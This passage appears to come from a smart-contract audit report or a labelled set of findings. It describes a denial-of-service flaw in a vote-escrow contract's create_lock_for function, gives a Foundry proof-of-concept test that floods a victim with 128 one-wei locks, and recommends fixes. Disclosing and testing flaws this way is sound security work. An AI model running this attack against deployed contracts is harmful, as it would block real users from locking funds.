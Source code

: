 ```solidity
require(block.timestamp >= _locked.end, "The lock didn't expire");
```

To better understand the issue, copy the following POC into `vePeg.t.sol`.

```solidity
function test_DOS_createlockfor() external {

        uint256 aliceAmountToLock = 1;
        uint256 aliceLockDuration = 365 days;

        vm.startPrank(ALICE);

        peg.approve(address(ve), type(uint256).max);

        //Alice creates 128 locks, each with 1 wei and the maximum duration, to perform a DOS attack on Bob
        for(uint256 i = 0; i < 128; i++) {

            uint256 aliceLockId = ve.create_lock_for(aliceAmountToLock, aliceLockDuration, BOB);
        }

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobAmountToLock = 1e18;
        uint256 bobLockDuration = 365 days;

        peg.approve(address(ve), bobAmountToLock);

        //Bob attempts to create a lock, but the transaction reverts due to Alice's DoS attack.
        vm.expectRevert("dstRep would have too many tokenIds");
        ve.create_lock(bobAmountToLock, bobLockDuration);

        vm.stopPrank();
    }
```

## Recommendations

Two potential fixes:

1. Set a minimum value requirement for the amount necessary for creating a lock to make the attack less feasible.
2. Restrict `create_lock_for()` access to trusted entities only.

---
### Example 3

**Auto Label:** Unbounded array growth leading to gas exhaustion and denial-of-service, enabling fund locking and unauthorized state manipulation.  
